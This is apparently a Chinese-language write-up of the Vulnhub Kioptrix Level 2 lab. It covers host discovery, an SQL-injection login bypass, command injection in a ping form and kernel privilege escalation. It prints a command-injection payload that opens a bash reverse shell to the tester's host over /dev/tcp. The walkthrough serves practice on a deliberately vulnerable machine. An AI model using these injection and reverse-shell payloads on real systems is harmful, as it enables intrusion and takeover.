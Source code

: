 ```yaml
---
title: Vulnhub-Kioptrix_Level2
date: 2025-2-24 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

### 主机发现

```
netdiscover -i eht0 -r 192.168.137.0/24
```

![image-20250319153745788](./././././Kioptrix%20Level2/image-20250319153745788.png)

### 端口扫描

![image-20250319165136560](./././././Kioptrix%20Level2/image-20250319165136560.png)

将端口分离

```
ports=$(cat nmap-ports.nmap | grep open | awk -F/ '{print $1}' | tr '\n' ',')
```

## 80 端口

尝试万能密码，登录成功

![image-20250319170626895](./././././Kioptrix%20Level2/image-20250319170626895.png)

![image-20250319171308645](./././././Kioptrix%20Level2/image-20250319171308645.png)

缺少了输入框，查看源码是多了一个单引号，bp 抓包拦截返回包，然后修改源码就可以正常显示

![image-20250319171416770](./././././Kioptrix%20Level2/image-20250319171416770.png)

功能是一个 ping 功能

![image-20250319171457384](./././././Kioptrix%20Level2/image-20250319171457384.png)

可以尝试在 ip 后面跟上命令 "；" 的作用是顺序执行；

![image-20250319171556375](./././././Kioptrix%20Level2/image-20250319171556375.png)

可以成功执行，直接在后面进行反弹 shell 即可

```
127.0.0.1;bash -c 'exec bash -i &>/dev/tcp/192.168.137.129/9991 <&1'
```

成功反弹 shell

## 提权

![image-20250319175201492](./././././Kioptrix%20Level2/image-20250319175201492.png)

查看内核，寻找内核提权漏洞

![image-20250319175306220](./././././Kioptrix%20Level2/image-20250319175306220.png)

下载到本地，本地开启 web 服务，靶机连接本机的 web 服务下载 exp

![image-20250319175440036](./././././Kioptrix%20Level2/image-20250319175440036.png)

成功提权